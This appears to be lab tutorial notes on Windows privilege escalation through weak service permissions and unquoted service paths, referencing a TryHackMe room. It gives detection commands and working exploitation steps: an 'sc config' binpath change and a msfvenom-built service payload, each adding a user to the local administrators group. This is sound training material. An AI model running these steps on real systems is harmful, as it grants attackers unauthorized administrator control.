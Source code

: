 # Escalation Path Service Permissions

## Binary - Path

### Binary Path in Windows Services

A **binary path** (`binpath`) in Windows services defines the **executable file** that runs when the service starts. This path is stored in the **Windows Registry** and tells the system what to execute when a service is launched.

### How is it Exploited for Privilege Escalation?

If a user has **SERVICE_CHANGE_CONFIG** permissions on a service, they can **modify the binary path** and point it to a **malicious command or executable**. When the service is restarted, Windows will execute the new binary **with system-level privileges**.

### Detection

**Windows VM**

```
accesschk64.exe
```

Open command prompt and type: 

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

Notice that the output suggests that the user “`User-PC\User`” has the “`SERVICE_CHANGE_CONFIG`” permission.

### Exploitation

**Windows VM**

In command prompt type:

```
sc config daclsvc binpath= "net localgroup administrators user /add" 
``` 

In command prompt type: 

```
sc start daclsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

## Unquoted Service Path Explanation

### What is an Unquoted Service Path?

In Windows, services are executed based on their **binary path**, which tells the system where to find the executable file.

If the path contains **spaces** but is **not enclosed in quotes**, Windows may misinterpret it and attempt to execute unintended programs.

### Detection

**Windows VM**

Open command prompt and type:

```
sc qc unquotedsvc
```

Notice that the “`BINARY_PATH_NAME`” field displays a path that is not confined between quotes.

### Exploitation

**Kali VM**

Open command prompt and type:

```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe  
```

Copy the generated file, `common.exe`, to the Windows VM.

**Windows VM**

Place common.exe in ‘C:\Program Files\Unquoted Path Service’.  

Open command prompt and type: 

```
sc start unquotedsvc
```


It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```
net localgroup administrators
```

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain ([https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)).